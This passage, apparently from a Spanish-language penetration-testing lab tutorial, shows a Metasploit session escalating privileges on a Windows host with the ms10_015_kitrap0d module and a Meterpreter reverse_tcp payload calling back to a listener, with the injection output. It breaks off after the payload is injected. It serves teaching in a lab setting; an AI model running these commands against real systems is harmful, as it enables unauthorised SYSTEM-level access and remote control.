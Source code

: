 Teniendo estos resultados frente a nosotros, podemos elegir fácilmente uno de ellos para probar. Si el que elegimos no es válido después de todo, pasamos al siguiente. No todas las verificaciones son 100% precisas y no todas las variables son las mismas. Bajando por la lista, `bypassauc_eventvwr` falla debido a que el usuario de IIS no forma parte del grupo de administradores, lo cual es lo esperado por defecto. La segunda opción, `ms10_015_kitrap0d`, hace el truco.

### MSF - Local Privilege Escalation

```r
msf6 exploit(multi/handler) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D


msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     1338             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338

LPORT => 1338


msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3

SESSION => 3


msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.5:1338 
[*] Launching notepad to host the exploit...
[+] Process 3552 launched.
[*] Reflectively injecting the exploit DLL into 3552...
[*] Injecting exploit into 3552 ...
[*] Exploit injected. Injecting payload into 3552...
```